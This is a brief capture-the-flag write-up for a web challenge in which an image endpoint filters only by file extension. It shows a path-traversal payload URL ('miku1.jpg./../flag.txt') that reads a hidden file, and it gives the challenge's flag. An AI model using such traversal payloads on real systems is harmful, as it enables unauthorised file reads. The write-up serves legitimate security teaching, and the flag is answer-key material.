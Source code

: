 For this challenge, we only have a link to a website :

<img src="./images/context_miku.PNG">

By looking into the files with the challenge we can clearly see that the flag is in the image folder


<img src="./images/miku_files.PNG">

We can also see a js file on how the site work, and we see that it is just a filter on images extension (png or jpg)

<img src="./images/miku_js.PNG">


by trying a basic LFI, we find the flag : 
- base image link
### https://mikufanpage.web.osugaming.lol/image?path=miku1.jpg



- LFI link

<img src="./images/miku_flag.PNG">

### https://mikufanpage.web.osugaming.lol/image?path=miku1.jpg./../flag.txt
## osu{miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku_miku}